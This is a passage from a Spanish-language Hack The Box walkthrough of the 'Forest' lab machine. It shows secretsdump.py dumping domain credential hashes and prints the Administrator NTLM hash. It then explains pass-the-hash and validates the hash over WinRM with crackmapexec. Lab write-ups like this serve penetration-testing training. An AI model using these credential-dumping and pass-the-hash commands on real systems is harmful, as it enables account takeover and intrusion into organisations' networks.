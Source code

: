 
```bash
secretsdump.py htb.locat/axel123@10.10.10.161
```


{:.note}
Nos muestra los secretos de la mayoria de todos los usuarios peor elque nos interesa en el de Administrator, con el cual podemos hacer pass de hash  `htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::` para ingresar al usuario privilegiado de la siguiente manera.


{:.note}
Para hacer pass de hash solo nos interesa el ultimo tercio del hash de administrator.


![list](/assets/img/forest/Kali-2022-09-14-01-09-03.png){:.lead width="800" height="100" loading="lazy"}


```powershell
crackmapexec winrm 10.10.10.161 -u "Administrator" -H "32693b11e6aa90eb43d32c72a07ceea6"
```


{:.note}
Comprobamos si las credenciales son validas para EvilWinRM.


![list](/assets/img/forest/Kali-2022-09-14-01-12-58.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Ingresamos.


![list](/assets/img/forest/Kali-2022-09-14-01-13-39.png){:.lead width="800" height="100" loading="lazy"}
